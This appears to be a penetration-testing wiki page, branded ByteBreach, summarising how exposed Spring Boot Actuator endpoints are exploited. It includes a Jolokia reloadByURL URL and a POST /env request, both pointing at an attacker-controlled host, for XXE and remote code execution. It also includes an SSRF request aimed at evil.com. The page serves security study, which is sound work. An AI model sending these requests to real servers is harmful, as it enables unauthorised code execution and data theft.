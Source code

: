 # Spring Actuators

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (924).png" alt=""><figcaption></figcaption></figure>

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

* Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
* Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  * `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
* In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   * The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   * The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   * Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:
   * If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   * Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   *   Example exploit POST request:

       ```
       POST /env HTTP/1.1
       Host: 127.0.0.1:8090
       Content-Type: application/x-www-form-urlencoded
       Content-Length: 65

       eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
       ```
3. **Other Useful Settings**:
   * Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

* A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1. **Env + H2 RCE**:
   * Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   * The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   *   Example exploit request:

       ```http
       GET ;@evil.com/url HTTP/1.1
       Host: target.com
       Connection: close
       ```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@khulnasoftm**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
